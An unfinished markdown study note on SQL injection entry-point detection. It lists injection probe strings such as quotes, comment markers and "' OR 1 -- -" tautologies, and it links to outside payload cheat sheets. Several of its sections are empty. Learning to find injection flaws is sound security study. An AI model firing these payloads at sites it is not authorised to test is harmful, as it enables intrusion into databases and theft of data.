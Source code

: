 ```yaml
---
sort : 2
---
```


# SQL Injection

## Entry point detection

For every request we intercept, one of the GET param or POST data could be vulnerable to SQL injection, so, How can we know if it is.


### 1. Break the query 
```
[None]
'       ''      %27
"       ""      %22
`       ``
#       ##      %23
;       ;;      %3B
*       ** 
/       //
\       \\
/*


%00     ;%00
-- -
/*…*/
+ 
||
% 


')      '))
")      "))
`)      `))


' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='

@variable
@@variable

AND 1       AND 0       AND true        AND false
1-false     1-true

1*56
-2
```
[FOR MORE](https://ismailtasdelen.medium.com/sql-injection-payload-list-b97656cfd66b)





if you get an `error`, then it's vulnerable.

### 2. Bypass the query 

#### Using WHERE

```

```


#### USing LIKE






## Attack






## 3. References
* https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#MySQLInlineSamples














Web crawler is also used to
insert illegal characters into the query string of a URL and check for any error result sent
by the server






M : 	MySQL
S : 	SQL Server
P : 	PostgreSQL
O : 	Oracle
+ : 	Possibly all other databases


Examples;

    (MS) means : MySQL and SQL Server etc.
    (M*S) means : Only in some versions of MySQL or special conditions see related note and SQL Server

